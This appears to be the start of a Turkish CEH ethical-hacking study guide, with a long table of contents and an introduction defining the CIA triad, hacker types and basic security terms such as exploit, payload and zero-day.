






Benimle iletişime geçmek isterseniz; [Emirhan Konuk In - İletişime Geç ! ](https://www.linkedin.com/in/emirhan-konuk-393449160/)

İÇİNDEKİLER

\0. Giriş ................................................ ................................................... ................................14

Temel Güvenlik Kavramları ................................................... ................................................14

Güvenlik, İşlevsellik ve Kullanılabilirlik dengesi............................................ ..........................15

Hacker Türleri................................................... ................................................... ........................15

Hacking kelime dağarcığı .............................................................................. ...................16

Tehdit Kategorileri ................................................ ................................................... ..........................17

Saldırı Vektörleri ................................................ ................................................... ................................18

Saldırı Türleri ................................................ ................................................... ................................19

\1. İşletim Sistemi .......................................................... ................................................... ................19

\2. Uygulama Düzeyi................................................... ................................................... .................19

\3. Hatalı yapılandırma................................................... ................................................... .................19

\4. Shrink-Wrap Kodu............................................ ................................................... .................19

Güvenlik açıkları ................................................ ................................................... ................................20

Güvenlik Açığı Kategorileri ................................................ ................................................... .......21

Sızma Testi Aşamaları (CEH)............................................................................... ...................21

Etik Hacking'in Beş Aşaması ................................................... ................................................22

\1. Keşif .......................................................... ................................................... ...................22

\2. Tarama ve Numaralandırma ................................................... ................................................... ....22

\3. Erişim Kazanma ................................................ ................................................... ........................22

\4. Erişimi Sürdürme................................................ ................................................... ................23

\5. İzleri Kapatma ................................................ ................................................... ...................23

Üç Tür Aktif Savunma ...................................................... ................................................... ...23

Bilgi Güvencesi (IA)................................................. ................................................... .........23

Bilgi Güvenliği Yönetimi Programı ................................................... ......................24

EISA - Kurumsal Bilgi Güvenliği Mimarisi ................................................... ..........24

Fiziksel Güvenlik Kontrolleri ................................................ ................................................... .........25

Güvenlik Denetimi Türleri ................................................ ................................................... .....26

Riski Yönetmek ................................................... ................................................... ........................26

Risk matrisi ................................................ ................................................... ................................26

Risk yönetimi................................................ ................................................... ...................27

Risk Yönetimi Aşamaları................................................ ................................................... ..27

Tehdit Modelleme ................................................ ................................................... ..........................29

Güvenlik politikaları ................................................ ................................................... ...................... 29

Güvenlik Politikası - Örnekler................................................ ................................................... .......... 30

Güvenlik Politikası - Türler ................................................ ................................................... .......... 31

Güvenlik Politikası - Oluşturma Adımları ............................................................... .31

Olay Yönetim Süreci ................................................ ................................................... .31

Olay Müdahale Ekibinin Görevleri ................................................ ................................................ 32

SIEM - Güvenlik Bilgileri ve Olay Yönetimi ...................................... .......... 32

Kimlik ve Erişim Yönetimi ................................................... ................................................ 36

\1. Tanımlama ................................................... ................................................... ...................... 36

\2. Kimlik doğrulama ................................................ ................................................... ...................... 37

\3. Yetkilendirme kavramları ................................................ ................................................... ...... 37

\4. Hesaplama ................................................... ................................................... ................................ 37

Erişim Kontrol Modelleri ................................................ ................................................... ......... 37

Veri Kaybını Önleme (DLP)............................................ ................................................... .......... 39

Veri yedekleme ................................................ ................................................... ................................ 39

Yedekleme Stratejileri ................................................ ................................................... ................... 40

Üç Yedekleme Yöntemi ................................................ ................................................... ................... 40

Sızma Testi - Temel Bilgiler................................................ ................................................... .......... 42

Hukuk Kategorileri ................................................ ................................................... ...................... 42

Yasalar ve Standartlar: ................................................ ................................................... ................... 42

OSSTM Uyumluluğu ................................................... ................................................... ................ 42

PCI DSS ............................................... .................... ................................................ 43

ISO 27001 ................................................ ................................................... ................................ 43

ISO 27002 VE 17799 ................................................ ................................................... .......... 44

HİPA .......................... ................................................... ........................... 44

SOX................................................. ................................................... ................................................ 44

DMCA ................................................. ................................................ 44

FİZMA .................................................................. ................................................ 44

NIST-800-53 ................................................ ................................................... ................................ 44

FİTARA................................................................... ................................................ 44

COBİT .................................................................... ................................................ 44

GLBA ....................................................... ................................................ 45

CSIRT................................................. ................................................... ................................................ 45

ITIL................................................. ................................................... ................................................ 45

Temel Bilgi ................................................ ................................................... ...................... 45

OSI Modeli ve TCP Modeli ................................................... ................................................... .......... 45

TCP El Sıkışma ................................................ ................................................... ...................... 46

TCP Flags.......................................................................... ................................... 48

Port Numaraları ...................................................................... ...................... 48

Subnetting ................................................ ................................................... ................................ 50

\1. Keşif ve Ayak İzi ................................................... ................................................ 51

Ayak İzi ................................................... ................................................... ................................ 51

Ayak İzi Türleri: Aktif ve Pasif .......................................... ................................................ 51

Ayak izi yardımcı olur: .................................. ................................................... .............. 52

Ayak İzi Hedefleri ................................................ ................................................... ............ 53

Yöntemler ve Araçlar................................................... ................................................... ...................... 54

Arama motorları ................................................ ................................................... ...................... 54

Web Sitesi Ayak İzi ................................................... ................................................... ............ 55

E-posta Ayak İzi ................................................... ................................................... ................. 56

DNS Ayak İzi ................................................... ................................................... ................... 57

Ağ Ayak İzi ................................................... ................................................... ........... 60

Diğer İlgili Araçlar ................................................ ................................................... ................. 61

OSR Framework................................................... ................................................... ...................... 61

Web Spiders ................................................ ................................................... ...................... 61

Recon-ng ................................................... ................................................... ................................... 61

Metasploit Framework ................................................ ................................................... .......... 61

theHarvester ................................................ ................................................... ............................ 61

Sublist3r ................................................ ................................................... ................................... 63

DIRB ............................................................................... ................................................ 64

Maltego .......................................................... ................................................... ................................... 64

Social Engineering Framework(SEF) ............................................ ................................................ 65

Web Tabanlı Keşif ................................................... ................................................... ...................... 66

NetCraft ................................................ ................................................... ................................... 66

Shodan ................................................ ................................................... ................................................ 67

Censys .................................................................. ................................................ 70

\2. Tarama ve Numaralandırma............................................ ................................................... ......... 70

Tarama Metodolojisi ................................................... ................................................... ......... 71

Hedeflerin Belirlenmesi .................................................................................. ................................. 71

Port Keşfi - Temel Kavramlar ................................................ .......... 73

Kapıyı tıklamak:................................................ ................................................... ................... 73

` `Firewall'ın mevcut olup olmadığını kontrol etme: .......... .................... 73

Nmap'i kullanmadan önce TCP Flags ve TCP Üçlü el sıkışmayı unutmayın! ...... 74

Nmap ................................................ ................................................... ................................................ 76

Nmap Tarama Türleri: ................................................ ................................................... ...................... 76

Gizli Tarama................................................... ................................................... ................................ 76

Tam bağlantı ................................................ ................................................... ................................ 76

TCP ACK taraması / Flag probe - çoklu yöntemler ...................................... ...................... 77

NULL, FIN ve Xmas Tarama............................................ ................................................... ......... 77

IDLE Tarama .......................................................................... ................................... 77

Sahtekarlık ................................................... ................................................... ................................... 78

Güvenlik Duvarından Kaçınma ..................................................................... ...................... 78

Zamanlama ve Performans ................................................ ................................................... ........... 78

UDP Scan .......................................................................... ................................... 79

Switch Listesi ................................................ ................................................... ...................... 79

➕ Nmap Hakkında Daha Fazla Faydalı Bilgi: ➕ .......................................... ...................... 81

\2. Servis ve Versiyon Tespiti ................................................ ................................................... 82

\3. İşletim Sistemi Tespiti ................................................................................ ...................... 82

\4. Zamanlama ve Performans................................................... ................................................... ......... 83

\5. NSE Scripts .......................................................................... ................................ 84

Kullanışlı NSE Script Örnekleri ............. ................................................... ....... 85

hping................................................ ................................................... ................................................ 86

Kaçınma Kavramları ................................................ ................................................... ...................... 87

Banner Grabbing................................................... ................................................... ...................... 88

Güvenlik Açıkları ................................................ ................................................... ...................... 89

Güvenlik Açığı Kategorileri: ................................................ ................................................... ....... 89

` `Güvenlik Açığı Değerlendirmesi -Zafiyeti tarar ve test eder ancak kasıtlı olarak exploit etmez ........ 89

Güvenlik Açığı Yönetimi Yaşam Döngüsü............................................ ................................... 90

Güvenlik Açığı Taraması ................................................... ................................................... .......... 91

CVSS ve CVE ................................................ ................................................... ...................... 91

Proxy Zincirleri.................................................................................................................... 93

Numaralandırma Kavramları .......................................................................... .................. 94

SNMP Enumeration ................................................... ................................................... ................... 95

Windows Sistem Temelleri ................................................... ................................................... .......... 97

NetBIOS Enumeration ................................................ ................................................... .......... 98

Linux Sistem Temelleri ................................................ ................................................... ................... 99

LDAP Enumeration ................................................... ................................................... ................... 100

NTP Enumeration ................................................ ................................................... ...................... 102

SMTP Enumeration ................................................ ................................................... ................. 102

Bazı SMTP Komutları: ................................................ ................................................... ....... 103

NTP Suite ................................................ ................................................... ................................... 105

enum4linux ................................................ ................................................... ................................ 105

smtp-user-enum ................................................ ................................................... ...................... 106

Quick Fix .......................................................................... ........................................ 106

\3. Sistem Hacklenmesi ..................................................................... ...................... 106

Hedefler: ................................................ ...................................................... 106

Parola Saldırıları................................................... ................................................... ...................... 107

Elektronik olmayan - Teknik olmayan saldırılar. ................................................... ...................... 107

Aktif Online - kurbanın makinesiyle doğrudan iletişim kurarak yapılır. ......... 107

Pasif Online - Bir şifreyi açık metin olarak ele geçirme umuduyla ağı dinleme

ya da yeniden oynatma saldırısı veya ortadaki adam saldırısı teşebbüsü ...................................... ... 109

Offline - bilgisayar korsanı parola dosyasının (Düz metin veya Hash) bir kopyasını çaldığında 

cracklemeyi ayrı bir sistem üzerinde yapar. ................................................... ...................... 110

Kimlik doğrulama ................................................ ................................................... ...................... 112

Windows Güvenlik Mimarisi................................................... ................................................... .. 113

LM Hashing ................................................... ................................................... ...................... 113

Ntds.dit ................................................ ................................................... ................................... 114

Active Directory Etki Alanı Hizmetleri (AD DS) için Kerberos ...................................... ...... 114

Kayıt ................................................. ................................................... ................................... 115

MMC ................................................ ................................................... ................................................ 116

Sigverif.exe ................................................ ................................................... ...................... 116

Linux Güvenlik Mimarisi ................................................... ................................................... ......... 117

Linux Dizin Yapısı ................................................... ................................................... .... 117

Linux Ortak Komutları ................................................ ................................................... .118

Yetki Yükseltme ve Uygulamaları Yürütme ...................................... ................... 120

Dikey - Alt düzey kullanıcı kodu daha yüksek bir ayrıcalık düzeyinde yürütür (örn.: ortak

kullanıcıdan root/administrator). ................................................... ................................................ 120

Yatay - kodun aynı kullanıcı düzeyinde bir konumdan çalıştırılması erişim için güvenli olur. ................................................ ................................................ 120

Gizli veri toplama ................................................ ................................................... ............ 121

Keylogger'lar - tek bir bilgisayar klavyesinin veya bir ağın tuş vuruşlarını kaydeder...........121

Casus yazılımlar - kullanıcının eylemlerini izlemek ve bunları kullanıcının izni olmadan günlüğe kaydetmek .......................................................... ................................................... ...................... 122

Keylogger'lara ve Casus Yazılımlara Karşı Savunma ................................................... ................... 123

Dosyaları Gizleme ................................................ .............................................................. 123

Steganografi: ................................................ ................................................... ............ 124

Rootkit'ler ................................................ ................................................... ........................................ 124

İzleri Kapatmak................................................... ................................................... ...................... 125

Linux'ta:................................................ ................................................... ................................. 125

Windows'ta: ................................................ ................................................... ...................... 126

İzlerin Örtülmesine İlişkin Sonuç ................................................ ................................................ 126

\4. Kötü Amaçlı Yazılımlar ..................................................... ................................................ 127

\- Kötü amaçlı yazılım nedir? ......................................................... .......... 127

Virüs ve Solucan Türleri..................................................................... 127

Virüslerin ana özellikleri: ................................................ ................................................ 129

Virüs Yaşam Döngüsünün Aşamaları: ....................................................... ....... 129

Malware ile İlgili Temel Bilgiler .......................................................... ...................... 130

Malware Temel Bileşenleri ................................................................... 130

Truva Atları................................................... ................................................... ................................ 131

Enfeksiyon Süreci: ................................................ ................................................... ................. 132

Trojan Port Numaraları: ................................................ ................................................... ............ 132

Trojan Karşı Tedbirleri ................................................ ................................................... ..... 134

Teknikler ................................................... ................................................... ...................... 134

Malware Analizi ........................................................................... ...................... 134

Malware analizi türleri: ....................................................................... ... 134

Adımlar ......................................................... ................................................ 135

Rootkit'ler ................................................ ................................................... ........................................ 136

\5. Sniffing ............................................................... ........................................ 136

Aktif ve Pasif Sniffing ..................................................................................... ...... 136

Temel bilgiler ................................................................. ................................................ 137

Duyarlı Protokoller ................................................ ................................................... ............ 138

ARP................................................. ................................................... ................................................ 138

IPv6 ................................................ ................................................... ................................................ 139

Telefon dinleme ..................................................................................... ................................ 139

MAC Flooding................................................ ................................................... ...................... 140

Switch Port Çalma ................................................ ................................................... ................. 140

ARP Zehirlenmesi ................................................... ................................................... ...................... 141

DHCP Açlığı ................................................... ................................................... ...................... 142

Spoofing ................................................... ................................................... ................................... 142

Sniffing Araçları ................................................ ................................................... ...................... 143

Wireshark ................................................ ................................................... ................................ 143

tcpdump................................................. ................................................... ................................ 144

tcptrace ................................................ ................................................... ................................... 145

Diğer Araçlar................................................ ................................................... ...................... 145

Sniffing'e Karşı Savunma ve Karşı Tedbir Teknikleri: ............................................ 145

\6. Sosyal Mühendislik ............................................................... ...................... 145

Aşamalar ...............................................................................................................................146

Prensipler ................................................. ................................................... ................................... 146

Davranışlar ................................................... ................................................... ................................... 146

Şirketlerin Ortak Riskleri: ................................................ ................................................... ...... 146

Sosyal Mühendislik Saldırıları: ................................................ ................................................... ...... 147

İnsan Kaynaklı Saldırılar................................................... ................................................... ........ 147

Bilgisayar Tabanlı Saldırılar................................................... ................................................... ... 148

Araçlar ............................................................................... ................................................ 148

Mobil Tabanlı Saldırılar................................................... ................................................... ................ 149

Fiziksel Güvenlik Temelleri ................................................ ................................................... ............ 149

Önleme ................................................ ................................................... ................................ 150

\7. IDS, Firewall ve HoneyPot'lardan Kaçınma ................................................................ 150

IDS/IPS - Temel Kavramlar ............................................ ................................................... .......... 150

Dağıtım Türleri - HIDS & NIDS & WIDS: ............................................ ...................... 150

Bilgi ve Davranışa Dayalı Tespit: ............................................ ...................... 151

IDS Alerts Türleri ................................................ ................................................... ................. 151

Firewall - Temel Kavramlar......................................................... ......... 151

Firewall türleri: ....................................................................... ...................... 151

Proxy Türleri:................................................... ................................................... ...................... 152

HoneyPots................................................... ................................................... ...................... 152

Honeypots Türleri: ................................................ ................................................... ............ 153

Nmap ile Kaçınma................................................ ................................................... ................... 153

Kaçınma ve Gizlilik için kullanışlı anahtarlar: ............................................ ...................... 153

Örnek:................................................ ................................................... ................................... 154

SNORT'u kullanma ................................................ ................................................... ...................... 154

SNORT temel komutları: ................................................ ................................................... .... 155

SNORT Kuralları ................................................ ................................................... ...................... 155

Bir Snort kuralının dökümü: ............................................ ................................................... .. 156

Kural Örnekleri:................................................ ................................................... ...................... 157

Kaçınma Kavramları ve Teknikleri ................................................ ................................................ 157

Güvenlik Duvarından Kaçınma................................................................. ...................... 159

HoneyPots nasıl tespit edilir?................................................ ................................................... ........ 160

\8. Denial of Service ................................................................................... ...................... 161

DoS ................................................ ................................................... ................................................ 161

DDoS ................................................ ................................................... ................................................ 161

Botnet .............................................................. ................................................ 162

Üç Tip DoS / DDoS vardır............................................ ................................................... ........ 163

\1. Hacimsel saldırılar ................................................ ................................................... .......... 163

\2. Protokol Saldırıları ................................................ ................................................... ................. 164

\3. Uygulama Katmanı Saldırıları ................................................ ................................................... .164

Saldırı açıklaması ................................................ ................................................... ................. 164

IP Parçalama saldırıları................................................... ................................................... ..... 164

TCP durum tükenmesi saldırısı ................................................... ................................................... .165

Slowloris saldırısı ................................................... ................................................... ...................... 165

SYN saldırısı ................................................ ................................................... ................................ 166

SYN flood (yarı açık saldırı)............................................ ................................................... ... 167

ICMP flood ................................................ ................................................... ...................... 167

Smurf atack ................................................ ................................................... ...................... 167

Fraggle ................................................... ................................................... ................................... 168

Ping of Death................................................. ................................................... ...................... 168

Teardrop ................................................... ................................................... ................................ 168

Peer to peer............................................... ................................................... ...................... 168

Çoklu vektör saldırısı ................................................ ................................................... ................ 169

Phlashing / Kalıcı DoS ................................................ ................................................... .169

LAND saldırısı ................................................ ................................................... ...................... 169

DoS/DDoS Saldırı Araçları: ............................................ ................................................... .......... 169

Azaltmalar ................................................ ................................................... ................................ 170

\9. Oturumu Ele Geçirme(Session Hijacking)................................................... ...................... 170

Session token güvenliği farklı şekillerde bozulabilir; en yaygın olanları:........................................172

Öngörülebilir session token.................................................. ................................................... .... 172

Session Sniffing................................................... ................................................... ...................... 172

Siteler arası komut dosyası çalıştırma (XSS)........................................................... ......... 172

CSRF - Siteler Arası İstek Sahteciliği ................................................ ................................................ 172

Oturum Sabitleme ................................................ ................................................... ................... 173

Man-in-the-browser attack ...................................... ................................................... ...... 173

Ortadaki adam saldırısı (Man-in-the-middle attack )........................................................... ........ 173

Diğer saldırılar ................................................ ................................................... ...................... 174

Ağ Katmanı Saldırıları ................................................ ................................................... .......... 174

Araçlar .................................................................................... ................................................ 174

Önlemler ................................................... ................................................... ...................... 175

IPSec .................................................................................... ................................................ 175

\10. Web Sunucularını Hacklemek .......................................... ................................................... .......... 176

Web Sunucu Saldırı Metodolojisi ................................................... ................................................ 176

Web Sunucu Mimarisi................................................... ................................................... .......... 177

Web Sunucu Saldırıları ...................................................................................... ................... 177

\11. Web Uygulamalarını Hacklemek ....................................................................................... ..... 179

Web Organizasyonları................................................... ................................................... ................... 179

OWASP Web Top 10 ................................................ ................................................... ................. 179

Web Uygulama Saldırıları ................................................ ................................................... ......... 181

SQL Injection........................................................................................ ................................ 181

` `SQL Injection in action: ................................................ ................................................... .......... 182

Bozuk Kimlik Doğrulaması ................................................ ................................................... ........ 184

Command Injection ................................................... ................................................... ............ 184

Hassas Verilerin Maruzu ................................................ ................................................... ....... 185

XEE - XML ​​Harici Varlıkları ................................................ ................................................... ... 185

RFI - Uzak Dosya Dahil Etme............................................ ................................................... .... 186

LFI - Yerel Dosya Dahil Etme: ............................................ ................................................... ......... 186

Dizin Geçişi ................................................... ................................................... .......... 187

XSS (Cross Site Scripting)................................................................................. ......... 187

XSS türleri: ................................................ ................................................... ...................... 187

HTML Injection ................................................ ................................................... ...................... 188

LDAP Injection ................................................... ................................................... ...................... 188

SOAP Injection ................................................... ................................................... ...................... 188

Buffer Overflow ................................................... ................................................... ................... 188

Siteler Arası İstek Sahteciliği (CSRF)............................................ ................................................ 189

Oturum Sabitleme ................................................ ................................................... ................... 189

HTTP Yanıtı Bölme ................................................... ................................................... ..... 189

Güvenli olmayan doğrudan nesne referansları (IDOR) ...................................... ................................ 190

Önlemler ................................................... ................................................... ...................... 191

\12. Kablosuz Ağları Hacklemek ................................................... ................................................... ... 191

Kavramlar ve Terminoloji ................................................... ................................................... ..... 191

BSSID ................................................................... ........................................ 192

SSID ................................................ ................................................... ................................................ 192

ESSID ................................................. ........................................................................... 192

DSSS ve FHSSS spektrumları: ................................................ ................................................... .192

Kablosuz Standartları: ................................................ ................................................... .......... 193

Kimlik doğrulama ................................................ ................................................... ...................... 194

Anten Tipleri:................................................ ................................................... ...................... 194

Kablosuz Şifreleme Şemaları ................................................ ................................................... .194

Kablosuz güvenlik................................................ ................................................... ...................... 195

WEP - Kablosuz Eşdeğerlik Gizliliği ................................................ ................................................... 195

WPA - Wi-Fi Korumalı Erişim ...................................... ................................................... 195

WPA2 - Wi-Fi Korumalı Erişim v2 ...................................... ................................................ 195

Kablosuz Hacking ................................................ ................................................... ...................... 196

Kablosuz Saldırılar ................................................ ................................................... ...................... 197

Kablosuz Şifreleme Saldırıları ................................................ ................................................... ... 198

WEP Kırma ................................................... ................................................... ...................... 198

WPA/WPA2 Kırılması ................................................... ................................................... ............ 198

Araçlar: ............................................................................. ................................................ 199

Bluetooth Saldırıları ................................................ ................................................... ...................... 200

Kablosuz Sniffing ................................................... ................................................... ...................... 200

Kablosuz Ağları Koruma - En iyi uygulamalar ............................................ ...................... 200

\13. Mobil Platformları ve IoT'yi Hacklemek ............... ................................................ 204

A) Mobil Platform Hacklenmesi .................................................................................. ..... 204

Mobil Platformlar ................................................ ................................................... ...................... 206

Mobil Saldırılar ................................................ ................................................... ...................... 207

Bluetooth: ................................................ ................................................... ................................ 208

Mobil Güvenliği İyileştirme ................................................ ................................................... ..... 208

B) Nesnelerin İnterneti Mimarisi ........................................................................... ...................... 209

\- IoT nedir? ................................................... ................................................... ...................... 209

İletişim Yöntemleri ................................................ ................................................................ 209

Uç Bilişim ................................................ ................................................... ................... 210

IoT'nin Çok Katmanlı Mimarisi ................................................ ................................................ 210

IoT Teknoloji Protokolleri ................................................ ................................................... .... 210

IoT İşletim Sistemleri ................................................ ................................................... ......... 211

Geofencing ................................................... ................................................... ...................... 211

Grid Computing ................................................ ................................................... ................... 212

Nesnelerin Analitiği (AoT) ................................................ ................................................... ....... 212

Endüstriyel IoT (IIoT) ................................................... ................................................... ................. 212

IoT Güvenlik Açıkları ve Saldırılar: .............. ................................................................ 212

OWASP  Top 10 IoT Güvenlik Açığı (2014)............................................ ................................ 213

OWASP  Top 10 IoT Güvenlik Açığı (2018)............................................ ................................ 213

Ortak IoT Saldırı Alanları ................................................ ................................................... ....... 215

IoT Tehditleri ................................................ ................................................... ................................ 215

IoT Hacking Metodolojisi ................................................... ................................................... ...... 216

Adımlar: .................................................................. ................................................ 216

IoT cihazlarının güvenliğini sağlamaya yardımcı olacak karşı önlemler: ..................................... 216

\14. Sızma testi................................................... ................................................... ................................ 217

Güvenlik Değerlendirmeleri: ................................................ ................................................... .......... 217

InfoSec Ekipleri.......................................................................... ......... 217

Sızma Testi Türleri ................................................ ................................................... ...................... 218

Pentesting Boxes: ................................................ ................................................... ................. 218

Sızma Testi Aşamaları......................................................................... ...................... 218

Güvenlik Değerlendirmesi Çıktıları ................................................ ................................................ 219

Terminoloji.............................................................................. ................................ 219

Güvenlik açıkları ................................................ ................................................... ...................... 219

\15. Bulut Bilişim................................................... ................................................... ...................... 220

Bulut Bilişimin Temelleri ................................................... ................................................... .......... 220

Bulut Dağıtım Modelleri ................................................ ................................................... ..... 221

NIST Cloud Mimarisi ................................................... ................................................... .......... 222

Bulut bilişimin beş özelliği ................................................ ................................... 222

Tehditler: ............................................................. ................................................ 223

Saldırılar: .................................................................................. ................................................ 224

OWASP Top 10 Uygulama Güvenliği Riski ................................................... ................................ 224

Ek Saldırılar ................................................ ................................................... ................... 226

Bulut Güvenliği Kontrol Katmanları .......................................................... .226

\16. Kriptografi ................................................ ................................................... ...................... 227

Kriptografinin amaçları: ................................................ ................................................... .. 227

Temel Terimler ve Kavramlar................................................ ................................................... ............ 228

Nerede Şifrelenir ve Şifre Çözülür?............................................ ................................................... .... 228

Şifreleme Algoritmaları ................................................ ................................................... ............ 229

Simetrik Şifreleme ................................................ ................................................... .......... 229

Kripto sistemi ................................................... ................................................... ...................... 231

Simetrik Şifreleme Sistemleri: ................................................ ................................................... .. 231

Asimetrik Şifreleme ................................................ ................................................... .......... 232

Hashes ............................................................................... ........................................ 233

Mesaj özeti................................................ ................................................... ...................... 234

Hash Algoritmalar ................................................ ................................................... ................. 235

MD5 - Mesaj Özetleme Algoritması ................................................ ................................................ 235

SHA - Güvenli Hash Algoritması ................................................ ................................................ 235

HMAC ......................................................................... ................................................... 236

RIPEMD ................................................... ................................................... ................................... 236

Keystretching................................................... ................................................... ...................... 236

Cryptographic nonce ................................................ ................................................... .......... 237

Başlatma vektörleri (IV) ................................................ ................................................... .......... 237

Dijital imzalar ................................................ ................................................... ...................... 238

PKI Sistemi................................................... ................................................... ................................... 238

Dijital Sertifikalar ................................................ ................................................... ................ 238

Anahtar Sarma ve Anahtar Şifreleme Anahtarları (KEK) ...................................... ...................... 240

Tam Disk Şifrelemesi - FDE ...................................... ................................................... ......... 240

Şifreli İletişim ................................................ ................................................... ..... 240

Kriptografi Saldırıları ................................................ ................................................... .......... 242

Saldırı nasıl yenilir: ................................................ ................................................... ................. 244

**0.GİRİŞ**

**Temel Güvenlik Kavramları**

Tüm ilke, sistemlerin **Hırsızlığını, Kurcalanmasını ve Bozulmasını** önlemektir.

**CIA Triad** (Gizlilik, Bütünlük ve Kullanılabilirlik) aracılığıyla.

•  **Gizlilik** Yetkisi olmayan kişilerce sistemlerin ve verilerin erişilmesini, görülmesini, okunmasını engellemek.

•  **Bütünlük** Verileri yetkisiz taraflarca değiştirilmeye veya silinmeye karşı koruyun ve yetkili kişiler yapılmaması gereken değişiklikler yaptığında hasarın geri alınabilmesini sağlayın.

•  **Kullanılabilirlik** Sistemleri, erişim kanalları ve kimlik doğrulama mekanizmaları, sağladıkları ve korudukları bilgilerin gerektiğinde kullanılabilir olması için düzgün çalışıyor olmalıdır.

**Not:** Ayrıca, orijinallik, hesap verebilirlik, reddetmeme ve güvenilirlik gibi diğer özellikler de dahil olabilir. (ISO\/IEC 27000:2009)

• **Denetim \* Hesap Verebilirlik** Temel olarak, kimin ne zaman giriş yaptığı gibi, bu verilere kimin eriştiğini gösteren her şeyi izlemeye devam edin.

**• Reddetmeme:** Reddetmeme, birinin bir şeyin geçerliliğini inkar edemeyeceğinin güvencesidir. Reddetmeme, bilgi güvenliğinde yaygın olarak kullanılan yasal bir kavramdır ve verilerin kökeninin ve verilerin bütünlüğünün kanıtını sağlayan bir hizmete atıfta bulunur.

**Güvenlik, İşlevsellik ve Kullanılabilirlik Dengesi** 

Bu üç öznitelik arasında karşılıklı bağımlılık vardır. **Güvenlik arttığında, kullanılabilirlik ve işlevsellik azalır.** Herhangi bir kuruluş, dengeli bir bilgi sistemine ulaşmak için bu üç nitelik arasında denge kurmalıdır.

**Hacker Türleri**

**• Siyah Şapka -** Kötü amaçlı faaliyetler gerçekleştirmek isteyen bilgisayar korsanları. 

**• Gri Şapka -** İyi veya kötü faaliyetler gerçekleştiren, ancak hackledikleri kuruluşun iznine sahip olmayan bilgisayar korsanları. 

**• Beyaz Şapka -** Etik hackerlar; Kötü niyetli bilgisayar korsanlarının önündeki güvenlik açıklarını ortaya çıkararak güvenliği artırmak için becerilerini kullanırlar.

**Script Kiddie \/ Skiddies** - Bilgisayar sistemlerine ve ağlarına saldırmak ve web sitelerini tahrif etmek için başkaları tarafından geliştirilen web kabuğu gibi kötü amaçlı komut dosyaları veya programlar kullanan vasıfsız birey

**Devlet Destekli Hacker** - İlgili bir hükümet veya kuruluş tarafından işe alınan bilgisayar korsanı

**Hacktivist** - Bir amaç için hackleyen biri; siyasi gündem.

**İntihar Hackerları** - Hapse girmekten veya herhangi bir cezayla karşı karşıya kalmaktan korkmayan bilgisayar korsanlarıdır; işi bitirene kadar hacklemeye devam ederler.

**Siber Terörist** - Korku veya bozulma yaratmak için dini veya politik inançlar tarafından motive edilir.

**Hacking Kelime Dağarcığı**

• **Hack değeri** **(Hack Value)**- Saldırgan tarafından görüldüğü gibi algılanan değer veya bir hedefin değeri.

• **Güvenlik açığı (Vulnerability)** - Bir sistem kusuru, sistemdeki zayıflık (tasarım, uygulama vb.).

• **Tehdit (Threat)** - Bir güvenlik açığından yararlanır.

**• İstismar** **(Exploit)**- İstismarlar, bir güvenlik açığı aracılığıyla bir sisteme erişmenin ve kusurdan kendi çıkarları için yararlanmanın bir yoludur. 

**• Yük** **(Payload)**- Bir saldırının bileşeni; özel kullanıcı metninin, kötü amaçlı eylemi gerçekleştiren solucanlar veya virüsler gibi kötü amaçlı yazılımlar da içerebilen kısmıdır; verileri silmek, spam göndermek veya verileri şifrelemek gibi. 

**• Sıfır gün saldırısı (Zero-day Attack)** – Bir satıcı bir kusuru bilmeden veya düzeltemeden önce gerçekleşen saldırı. 

**• Papatya Zincirleme (Daisy Chaining)** **\/ Pivotting** - Bir ağa ve / veya bilgisayara erişim kazanmayı ve daha sonra istenen bilgileri içeren birden fazla ağa ve bilgisayara erişmek için aynı bilgileri kullanmayı içerir. 

**• Doxxing** - Genellikle kötü niyetli bir niyetle bir birey hakkında PII yayınlamak. 

